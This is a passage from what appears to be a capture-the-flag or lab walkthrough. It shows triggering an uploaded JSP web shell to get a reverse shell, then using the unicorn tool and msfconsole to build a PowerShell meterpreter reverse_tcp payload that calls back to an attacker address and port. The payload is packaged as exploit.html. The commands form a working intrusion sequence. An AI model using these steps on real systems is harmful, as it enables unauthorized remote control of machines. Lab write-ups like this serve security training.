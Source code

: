 navigate to the k.jsp page

    10.10.10.11:8500/userfiles/file/K.jsp

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382099333_image.png)

*wait the 20-30s for the connection to establish.*

# Reverse Shell - RCE
a connection is established via the K.jsp file to port 4444:

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382176309_image.png)

*this is just a reverse shell and we need to upgrade it.*

## unicorn to upgrade shell

Github Link: https://github.com/trustedsec/unicorn

    /opt/unicorn/unicorn.py

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382355291_image.png)

usage:

    /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp 10.10.12.194 31337

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382483702_image.png)

*output’s two files when it’s done.* 

First file: unicorn.rc - all commands to load unicorn in metasploit
Second file: powershell_attack.txt = unicorn powershell exploit


![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382554455_image.png)

    cat powershell_attack.txt

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382593808_image.png)

*command is very long but can return a shell. Sending this all through one terminal might not be the best call the better option would be to have the file sent to target.*

## load metasploit w/ unicorn command
    msfconsole -r unicorn.rc

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557382723977_image.png)

## create powershell_attack to html

create a new file with a pasted clipboad of the exploit and named it `exploit.html`
